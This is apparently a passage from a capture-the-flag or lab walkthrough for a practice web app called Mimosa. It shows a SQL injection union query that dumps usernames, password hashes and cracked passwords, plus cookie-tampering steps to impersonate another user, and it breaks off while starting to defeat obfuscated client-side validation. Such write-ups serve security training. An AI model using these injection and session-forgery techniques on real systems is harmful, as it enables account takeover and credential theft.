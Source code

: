 7.  Finally, try perform final SQL union query using the above table
    name and column name that we have found.

> \' union select FIRSTNAME,PASSWORD,1,null from operatives;\-- -

  ----------------------- ---------------------------------- -----------------------
  alec                    482c811da5d5b4bc6d497ffa98491e38   password123

  aristotle               c24a542f884e144451f9063b79e7994e   password12

  basil                   5f4dcc3b5aa765d61d8327deb882cf99   password

  **dusko**               9fb3f364fe13dfc740ecacab3bcaa5b0   scoot

  ian                     96613f69bbb2e027f969dcb6cc4136af   1

  kratt                   7c6a180b36896a0a8c02787eeafb0e4c   password1

  the                     f25a2fc72690b780b2a14e140ef6a9e0   iloveyou
  ----------------------- ---------------------------------- -----------------------

\*Always read the description that gives clues on what will work and
not(eg. quotes are filtered, only top 3 results return, etc) so you can
adjust your queries accordingly.

Session

\- Locked Out (Cookie Tampering)

\- Developer console (Chrome, find equivalent for others)

\- Go Application \> Cookies \> https://mimosa

\- Extract the mms-username

\- base64 decode to reveal current logged in user username

\- base64 encode the username \"weiliang\" to \"d2VpbGlhbmc=\"

\- Replace the mms-username with \"d2VpbGlhbmc=\"

\- Hit the activate button to submit

Validation

\- Into the Shadow (Client Side Authentication/Validation & Obfuscation)

\- WARNING: DIFFICULT. MEANT FOR THOSE WHO DEEM MIMOSA \"TOO EASY\".

\- Developer console, read javascript

\- Discover embedded username check, for username === \"shadow\"

\- Copy out obfuscated javascript, read implementation

\- Note the integrity check and anti debug loop

\- Create additional function using console to display internal equality
check

function passwordFinder() {

var ord = Function.prototype.call.bind(\'\'.charCodeAt);
